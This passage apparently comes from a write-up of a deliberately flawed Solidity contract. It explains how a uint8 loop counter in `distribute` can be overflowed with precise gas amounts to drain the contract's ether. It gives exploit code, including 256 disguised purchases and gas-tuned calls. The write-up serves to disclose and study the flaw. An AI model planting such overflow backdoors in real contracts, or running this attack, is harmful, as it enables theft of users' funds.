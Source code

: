 # The Exploit

In `distribute`, `var i` is initialized as a `uint8`. Since the loop exits when
the gas left in the transaction hits 50000, it's possible to overflow the loop
counter and reset it to `0` by providing exactly the right amount of gas, thus
distributing all the ether held by the contract to the first 256 contributors.

To exploit this, use something like the following as part of the
deployment (perhaps using multiple addresses for disguise):

```
uhi = new UHI();

for (uint i = 0; i < 256; i++) {
    uhi.buy.value(1 ether)();
}
```

This will preload the contract with 256 purchase records belonging to
the attacker, allowing the overflow described to be exploited by
providing just the right amount of gas:

```
// extract tokens
uhi.distribute.gas(4900000)();
assertEq( uhi.num(), 0 );

// turn tokens into ether
uhi.redeem();

// successive calls to distribute need gas providing dependent on the
// number of real buyers
uhi.distribute.gas(3850000)();
uhi.redeem();
```
